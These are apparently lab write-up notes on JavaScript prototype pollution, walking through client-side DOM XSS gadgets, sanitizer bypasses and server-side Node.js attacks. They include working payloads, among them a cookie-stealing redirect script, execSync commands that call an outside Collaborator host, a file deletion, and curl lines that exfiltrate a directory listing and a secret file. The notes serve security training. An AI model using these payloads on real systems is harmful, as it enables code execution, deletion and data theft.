 # Prototype Pollution

Prototype pollution is a JavaScript security bug where an attacker injects or changes properties on Object.prototype (the base object every normal object inherits from). Because most objects inherit from that prototype, changing it can silently change app behavior and lead to serious issues — often remote code execution, data tampering, or DOM XSS in browsers.



## How it works (simple steps)
- JavaScript objects inherit from Object.prototype.
	- Example: {} → inherits properties from Object.prototype.
- If an attacker can control a property name like __proto__ or constructor.prototype through user input (query strings, JSON, form fields), they can change that prototype.
- After pollution, any object that checks or uses the polluted property will see the attacker-controlled value.

Example payloads:
- Query-string style: /?__proto__[isAdmin]=true
- JSON-like (if an app naively merges user JSON into config): ``` {"__proto__":{"role":"admin"}} ```
```js
// before
Object.prototype.marker // undefined

// attacker injects ?__proto__[marker]=owned
Object.prototype.marker // "owned"
({}).marker             // "owned"  <-- every object now has marker

```

## Lab: Client-side prototype pollution via browser APIs

- Goal: Exploit client-side prototype pollution to trigger a DOM XSS (script.src) sink.

Manual approach

- Find pollution source: Inject into query string 
	- 	/?__proto__[foo]=bar and verify Object.prototype.foo appears in the browser console.
- Identify gadget: Inspect site scripts (Sources). 
	-	In searchLoggerConfigurable.js a transport_url is dynamically appended as a <script> but was made non-writable/unconfigurable with Object.defineProperty() without defining a value property — this creates a gadget that reads value.
- Exploit: Pollute prototype so the gadget picks up a value property: 
	-	/?__proto__[value]=data:,alert(1); — the page renders <script src="data:,alert(1);"> and alert(1) runs, solving the lab.

DOM Invader (Burp) approach

	- Load lab in Burp browser, enable DOM Invader with prototype-pollution option.
	- Reload; DOM Invader finds prototype-pollution vectors in the query string.
	- Click Scan for gadgets → DOM Invader locates the value gadget and the script.src sink.
	- Click Exploit → DOM Invader auto-generates the POC and triggers alert(1).
Key takeaway: Prototype pollution via __proto__ can inject properties that interact with existing DOM-creating gadgets (e.g., script insertion) to achieve DOM XSS.


---


## Lab:  DOM XSS via client-side prototype pollution

Goal: Use prototype pollution to control a script src and trigger DOM XSS.

Manual steps (quick):

-	Find pollution vector: Inject into query string:
	-	/?__proto__[foo]=bar → confirm Object.prototype.foo === "bar" in DevTools Console.
-	Identify gadget: Inspect site scripts (Sources). 
	-	searchLogger.js will append a <script> if config.transport_url exists — a potential gadget if that property is read later.
-	Exploit: Pollute the prototype with transport_url:
	-	/?__proto__[transport_url]=data:,alert(1);
	Check Elements — a <script src="data:,alert(1);"> appears and alert(1) runs. Lab solved.

Automated (Burp DOM Invader):

	- Load lab in Burp browser → enable DOM Invader + prototype-pollution.
	- Reload: it finds pollution vectors in the query string.
	- Click Scan for gadgets → it finds the transport_url gadget and the script.src sink.
	- Click Exploit → DOM Invader generates a POC and triggers alert(1).

Key takeaway: Polluting __proto__ can inject properties (like transport_url) that existing client-side code uses to create DOM elements (e.g., script tags), enabling DOM XSS.

---

## Lab: DOM XSS via an alternative prototype pollution vector

Goal: Exploit prototype pollution to inject malicious JavaScript into an eval() sink.

Manual solution

- Find prototype pollution source:

	- Test /?__proto__[foo]=bar → no effect.

	- Try /?__proto__.foo=bar → success (Object.prototype.foo now equals "bar").

- Identify gadget:

	- In searchLoggerAlternative.js, an eval() sink uses manager.sequence, which isn’t defined — potential gadget.

- Craft exploit:

	- Inject payload:
		- /?__proto__.sequence=alert(1)
		- → error occurs, showing alert(1)1 (extra “1” breaks syntax).

	- Fix syntax by appending a minus:
		- /?__proto__.sequence=alert(1)-
		- → valid JS, triggers alert(1) and solves the lab.

DOM Invader solution

	- Enable prototype pollution option and reload page.
	- DOM Invader detects pollution vector in query string.
	- Scan for gadgets → finds eval() sink via sequence property.
	- Generated PoC fails initially due to the trailing 1 in payload.
	- Manually append - to the payload in URL → alert(1) executes successfully.



Key takeaway:
	- By polluting Object.prototype with a property used by an eval() sink, you can inject and execute JavaScript (DOM XSS). Sometimes, syntax adjustments (like adding -) are needed to fix malformed payloads.

---

## Lab: Client-side prototype pollution via flawed sanitization

Goal: Bypass the app’s key-sanitization to pollute Object.prototype, then control a script.src gadget to trigger DOM XSS.

How the bypass works :

- Simple __proto__ or constructor.prototype attempts are blocked by the site’s sanitizeKey() blocklist, so /?__proto__.foo=bar and similar fail.

- The filter isn’t recursive and can be bypassed by obfuscating the blocked key so the sanitizer misses it but the parser still interprets it. Example bypass forms used:

	- /?__pro__proto__to__[foo]=bar
	- /?__pro__proto__to__.foo=bar
	- /?constconstructorructor[protoprototypetype][foo]=bar
	- /?constconstructorructor.protoprototypetype.foo=bar

- After injecting one of those, Object.prototype.foo === "bar" — prototype pollution achieved.

Finding the gadget:

- Inspect site JS. searchLogger.js dynamically appends a <script> using config.transport_url if present.

- config.transport_url is not normally defined — a perfect gadget if you can supply it through the polluted prototype.

Exploit (POC):

- Pollute the prototype with transport_url:
	- /?__pro__proto__to__[transport_url]=data:,alert(1);

- The page renders <script src="data:,alert(1);"> and alert(1) executes → lab solved.

Key takeaway: Even when direct __proto__ keys are blocked, non-recursive sanitizers can be bypassed by tricking the parser with obfuscated key names. If client-side code later reads a property (e.g., transport_url) to build DOM (script.src), that polluted property can be used to trigger DOM XSS.


---

## Lab: Client-side prototype pollution in third-party libraries

Goal: Use prototype pollution delivered in the URL fragment (#...) to control a setTimeout() sink (hitCallback) and execute code (steal cookie).


- Load the lab in Burp’s built-in browser.
- Enable DOM Invader and turn on the prototype pollution option.
- Open DevTools → DOM Invader tab and reload the page. DOM Invader finds two pollution vectors in the URL hash (fragment).
- Click Scan for gadgets → wait for the gadget scan. It finds a hitCallback gadget that reaches a setTimeout() sink.
- Click Exploit → DOM Invader auto-generates a POC and runs alert(1) (proof the sink is exploitable).
- Disable DOM Invader.
- On the lab’s exploit server, create an HTML payload that navigates victims to a malicious URL containing the polluted hash. Example body:

```html
<script>
  location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>

```
- Test the exploit yourself (confirm navigation and that alert(document.cookie) runs).
- Deliver the exploit to a victim to solve the lab.

Key takeaway: Prototype pollution delivered via the URL fragment can be discovered and weaponized with DOM Invader. If a gadget (here hitCallback) feeds attacker-controlled properties into DOM timers (setTimeout), you can execute arbitrary JS (e.g., alert(document.cookie)) by getting the victim to visit a crafted URL.

---

## Lab: Privilege escalation via server-side prototype pollution

Goal: Pollute server-side object prototype via a JSON request to become an admin and delete the carlos user


- Inspect address update: Log in, submit the account address form. In Burp HTTP history find the POST /my-account/change-address request — the form data is sent as JSON and the server responds with a JSON user object.

- Prototype pollution test: Send the request to Repeater and add:
	```json
	"__proto__": { "foo": "bar" }

	```
	- Send it — the response user object now shows foo: "bar" (but no __proto__), indicating prototype pollution (inherited property).

- Find gadget: The response has isAdmin: false — this property is read by the app to show admin links.

- Exploit: Modify JSON to:
	```json
	"__proto__": { "isAdmin": true }

	```
Key takeaway: Untrusted JSON merged into server-side objects can pollute Object.prototype. If the app relies on properties like isAdmin from user objects, prototype pollution lets an attacker escalate privileges.

---

## Lab: Detecting server-side prototype pollution without polluted property reflection

- Log into the account page and submit the change-address form while capturing the POST /my-account/change-address in Burp Proxy.

- Send the request to Burp Repeater and note the server exchanges JSON representing the user.

- Add an injected : 
	```__proto__ property (e.g. {"__proto":{"foo":"bar"}}) ``` and resend — response may not immediately show the injected field.

- Intentionally break the JSON to get an error response (500) whose error object contains a status: 400.

- Restore valid JSON, change the injected __proto__ to include a custom status (must be between 400–599), e.g. ``` {"__proto":{"status":555}},``` and resend — get normal user response.

- Break the JSON again; this time the error object’s status/statusCode reflect the injected value from Object.prototype, confirming prototype pollution and solving the lab.

One-line takeaway: use __proto__ injection plus triggering an error path to prove Object.prototype was polluted (observed via modified error status).

---



## Lab: Remote code execution via server-side prototype pollution

- Log in, update your address, and capture the POST /my-account/change-address request in Burp.

- Send it to Repeater and test prototype pollution by injecting:
```json
"__proto__": { "json spaces": 10 }

```

- Visit the admin panel and note that running maintenance jobs likely spawns Node.js child processes.

- Exploit this by injecting:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"]
}

```
Trigger maintenance jobs — the Burp Collaborator receives DNS hits, confirming remote code execution (RCE).


- Finally, replace the payload with:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]
}

```
Trigger the jobs again — Carlos’s file is deleted, solving the lab.

In short: Prototype pollution via __proto__ leads to Node.js RCE by manipulating execArgv, enabling arbitrary command execution and file deletion.

---

## Lab: Exfiltrating sensitive data via server-side prototype pollution
Study the Address Change Feature

	- Log in and update your address via the account page.
	- In Burp Suite, locate the POST /my-account/change-address request.
	- Observe the JSON response reflecting the updated address.

Identify Prototype Pollution

	- Send the request to Burp Repeater.
	- Inject a __proto__ property with 
	```json
	{"json spaces":10}.
	```
	- Confirm prototype pollution by observing increased JSON indentation in the response.

Trigger Remote Code Execution (RCE)

	- Go to the admin panel and trigger maintenance jobs.
	- Inject malicious properties into __proto__ to exploit child_process.execSync():
	```json
	"__proto__": {
  	"shell": "vim",
 	 "input": ":! curl https://YOUR-COLLAB-ID.oastify.com\n"
	}
	```
	- Trigger the job and confirm RCE via Burp Collaborator interactions.

Leak Hidden File Name

	- Modify payload to list Carlos’s home directory:
	```json
	"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
	```

Exfiltrate Secret File

- Update payload to read and exfiltrate /home/carlos/secret:
	```
	"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
	```
	- Trigger the job, decode the Base64 response, and retrieve the secret.